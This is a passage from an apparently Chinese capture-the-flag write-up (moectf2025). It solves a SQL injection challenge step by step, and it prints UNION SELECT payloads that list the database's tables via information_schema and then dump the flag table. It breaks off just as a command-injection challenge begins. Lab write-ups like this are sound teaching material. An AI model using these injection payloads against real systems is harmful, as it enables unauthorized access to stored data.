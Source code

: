 > 此术为破解玄机阁禁制的无上秘法，需精通"SELECT、UNION、FROM"三大真言精髓。相传此术修至大成，可洞悉万物本源，破解一切禁制。然修习此术需极高悟性，千年来唯xt长老等寥寥数人掌握。

根据提示，我们这次要用到"SELECT、UNION、FROM"。先尝试套公式拿到存储用户的表的列数，和所有表的名称

```sql
# 先试这个，假设只有一列
-1' union select group_concat(table_name) from information_schema.tables where table_schema=database()#
# 两列
-1' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()#
# 有回显了，但是顺序反了
-1' union select group_concat(table_name),1 from information_schema.tables where table_schema=database()#
```

![image.png](./moectf2025wp/image_40.png)

经过尝试，我们得到这个数据库存在 flag, users 两张表，且 users 表具有两列数据。我们要找的 Flag 应该就在 flag 表里面。于是，大胆猜测 flag 表只有一列，写出最终注入：

```sql
-1' union select *,1 from flag;#
```

![image.png](./moectf2025wp/image_41.png)

拿到 Flag。

---

## [截断命令 RCE] 09 第九章 星墟禁制·天机问路

非常神秘一道题，不给提示。先试试他给的例子，反正不吃亏。
